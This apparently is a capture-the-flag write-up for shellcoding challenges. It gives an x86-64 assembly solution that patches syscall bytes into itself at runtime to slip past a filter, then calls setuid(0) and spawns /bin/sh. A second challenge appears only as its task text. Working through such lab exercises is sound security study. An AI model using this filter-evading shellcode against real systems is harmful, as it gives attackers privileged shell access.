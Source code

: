 
## 5
Task: This challenge requires that your shellcode does not have any `syscall`, `sysenter`, or `int` instructions. System calls are too dangerous! This filter works by scanning through the shellcode for the following byte sequences: `0x0f05`
(`syscall`), `0x0f34` (`sysenter`), and `0x80cd` (`int`). One way to evade this is to have your shellcode modify itself to insert the `syscall` instructions at runtime.

```s
.intel_syntax noprefix
.global _start
.section .text
_start:

xor rax,rax
or  rax,0x69
xor rdi,rdi

# creating syscall at runtime
inc byte ptr [rip+sys_1]
inc byte ptr [rip+sys_1+1]
sys_1:
.byte 0x0e
.byte 0x04

xor     rdx, rdx
mov     rbx, 0x68732f6e69622f2f # '//bin/sh'
shr     rbx, 0x8
push    rbx
mov     rdi, rsp
push    rax
push    rdi
mov     rsi, rsp
mov     al, 0x3b # syscall execve

# creating syscall at runtime
inc byte ptr [rip+sys_2]
inc byte ptr [rip+sys_2+1]
sys_2:
.byte 0x0e
.byte 0x04
```

## 6
This challenge requires that your shellcode does not have any `syscall`, 'sysenter', or `int` instructions. System calls
are too dangerous! This filter works by scanning through the shellcode for the following byte sequences: 0f05
(`syscall`), 0f34 (`sysenter`), and 80cd (`int`). One way to evade this is to have your shellcode modify itself to
insert the `syscall` instructions at runtime.
